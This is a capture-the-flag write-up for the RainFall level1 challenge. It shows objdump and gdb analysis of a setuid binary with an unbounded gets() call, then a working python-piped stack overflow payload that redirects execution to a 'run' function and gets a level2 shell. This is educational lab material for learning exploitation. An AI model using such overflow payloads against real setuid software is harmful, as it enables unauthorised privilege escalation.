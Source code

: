 ### Description

Like last exercice we found a binary in home with the suid  execution bit set so we will probably have exploit the binary to get access to the shell or to the pass through it

So we will disassemble the program using objdump to have it in full

```sh
level1@RainFall:~$ objdump -d ./level1 
```

We can find 2 interesting element

first there is an unprotected input in the main: `gets` will try to write a string of any length to the stack.

- We can exploit the stack by overwriting the return adress of the stack base pointer. 

- By scrolling through the program's function we notice a function name run that actually launch a call to `system` function

```as
08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp

[...]

 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave  
 804847f:	c3                   	ret    
```

---

- running gdb we can observe the stack with:
`(gdb) x/100x $sp`


- We can also have information on stack frame with:
```as
(gdb) info frame
Stack level 0, frame at 0xbffff730:
 eip = 0x8048495 in main; saved eip 0x64636261
 Arglist at 0xbffff728, args: 
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c
```
- **Notice we got the current stack frame and the previous one in `saved eip 0x64636261`**



- We going to overwrite the return of main function to jump on the `run` function


```
level1@RainFall:~$ (python -c 'print ("A" * 76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
whoami
level2
```
